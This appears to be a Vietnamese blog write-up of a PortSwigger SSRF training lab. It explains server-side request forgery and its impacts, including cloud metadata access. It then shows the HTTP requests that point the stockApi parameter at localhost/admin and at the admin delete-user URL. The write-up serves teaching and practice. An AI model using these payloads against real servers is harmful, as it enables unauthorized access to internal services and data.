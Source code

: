 ```yaml
---
title: "[PortSwigger Lab] - Server Site Request Forgery (SSRF)"
description: Solution of Server Site Request Forgery (SSRF) Lab
date: 2025-06-11 17:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, ssrf]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-11-portswigger-lab-ssrf/ssrf.png
    alt: Server Site Request Forgery (SSRF)
---
```


## Introduction
---
### **Server Site Request Forgery (SSRF)**
- **Server Site Request Forgery (SSRF)** là một lỗ hổng bảo mật web cho phép kẻ tấn công lợi dụng máy chủ để gửi các requests tới các hệ thống khác mà lẽ ra không nên được truy cập.
- Trong một cuộc tấn công **SSRF**, kẻ tấn công gửi một yêu cầu độc hại đến một máy chủ **web**. Thay vì chính trình duyệt của kẻ tấn công thực hiện yêu cầu, máy chủ **(server)** sẽ thực hiện thay, và gửi đến địa chỉ mà kẻ tấn công chỉ định.

### Impact of SSRF attacks
- **Truy cập hệ thống nội bộ (Internal Services) như:**
   -  `http://127.0.0.1`, `http://localhost`, `http://169.254.169.254` `(metadata API của cloud như AWS)`.
    - Dịch vụ quản trị cơ sở dữ liệu, `Redis`, hoặc `admin panels`.
- **Lộ thông tin nhạy cảm:** `Token`, `credentials`, thông tin nội bộ...
- **Mở rộng tấn công:** Gửi yêu cầu từ máy chủ đến hệ thống bên ngoài, khiến các cuộc tấn công dường như xuất phát từ phía `máy chủ (trusted source)`.
- **Remote code execution (RCE):** Trong một số trường hợp nghiêm trọng, **SSRF** có thể dẫn đến thực thi mã tùy ý từ xa.

## Solve SSRF Lab
---
### Lab: Basic SSRF against the local server
#### Analysis
- Truy cập 1 blog bất kỳ và sử dụng chức năng **check-stock**
- Gửi request **check-stock** đến **Burp Repeater**

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

- Ta thấy giá trị của **stockApi** là `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1` sau khi decode
- Nó server thực hiện gửi http request để lấy dữ liệu stock
- Lợi dụng server để gửi request, lấy nội dung của trang **admin**

#### Exploit
- Thay đổi **url** đến trang **admin**

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localhost/admin
```
- Quan sát tab **response**, ta thấy có đường dẫn đẻ xóa user `carlos`

```html
<a href="/admin/delete?username=carlos">Delete</a>
```
- Tiếp tục gửi request đế xóa user `carlos`

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localhost/admin/delete?username=carlos
```

---
Goodluck! 🍀🍀🍀 
